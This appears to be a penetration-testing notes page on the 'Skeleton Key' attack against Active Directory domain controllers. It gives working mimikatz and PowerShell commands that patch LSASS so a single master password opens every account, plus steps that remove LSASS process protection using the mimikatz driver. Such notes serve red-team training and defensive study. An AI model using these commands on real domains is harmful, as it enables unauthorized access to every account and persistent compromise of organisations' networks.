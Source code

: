 # Skeleton Key

Skeleton key is a persistence technique where it is possible to inject malware to the Domain Controller LSASS process so that it allows access as any user with a single password. It helps to use one password to log in to all the accounts in the domain.

## Important to know:

* Require Domain Admin privileges
* Skeleton Key is not persistent across reboots
* Skeleton Key is not opsec safe and is also known to cause issues with AD CS

## Inject a skeleton key

```powershell
# needs DA privs
# password would be "mimikatz"
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' 
```

## Access any machine

```powershell
Enter-PSSession -Computername dcorp-dc -credential dcorp\Administrator
```

### LSASS running as a protected process

In case Lsass is running as a protected process, we can still use Skeleton Key but it needs the mimikatz driver (mimidriv.sys) on disk of the target DC

```
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-
```

more detailed

{% embed url="https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/persistence/skeleton-key-attack" %}
